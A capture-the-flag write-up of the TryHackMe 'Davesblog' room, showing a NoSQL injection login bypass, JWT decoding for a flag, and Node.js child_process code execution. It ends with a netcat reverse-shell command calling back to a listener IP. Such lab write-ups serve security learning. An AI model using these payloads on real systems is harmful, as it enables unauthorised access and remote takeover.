 <h3> Davesblog TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe08f1e1-1816-4a36-8e3c-a5a65985d426)

Checking the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4d01c87-c206-417e-9cfa-1ec50bf94091)

From looking at the web app server buildins we can see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/699e3b64-a912-42dc-9981-f07f4bac6a09)

This tells us that the web server is running on Express which is basically NodeJS and also the db is NoSQL

Checking the /admin directory shows a login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f349a68b-2136-4aa8-af74-9e247ae4a70e)

Since we don't currently know any cred to use lets try NoSQLi 

I used [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to get my payload to be:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

And remember the *Content-Type* should be set to *application/json*

Trying that bypasses the login form
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/046e84e9-57e8-481b-89f1-08b9b76bed54)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66883af2-ca6e-41be-af4a-263eecd1a4de)

A new cookie is formed and its a jwt token 

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7d75288-15ec-4e23-8793-f0cf70640399)

Using [jwt.io](https://jwt.io/) I decoded the jwt token and got the first flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e97c9fe-1ad5-4a1a-883b-59e50e80d435)

There's a place which claims to be executing system commands but when i try execute normal commands it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70d80988-4740-4c49-bbb8-0db576988e65)

Since we know that the web server is build on NodeJs lets execute a NodeJS command
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/98e7ddae-13d6-4554-9f14-c20c612adf99)

```js
(() => { return require("child_process").execSync("whoami;", { timeout: 5000 }); })();
```

Now lets get shell :D

```js
(() => { return require("child_process").execSync("busybox nc 10.2.42.156 1337 -e /bin/bash;", { timeout: 5000 }); })();
```

To stabilize the shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79634295-3ecd-410c-932c-543f9a59b040)



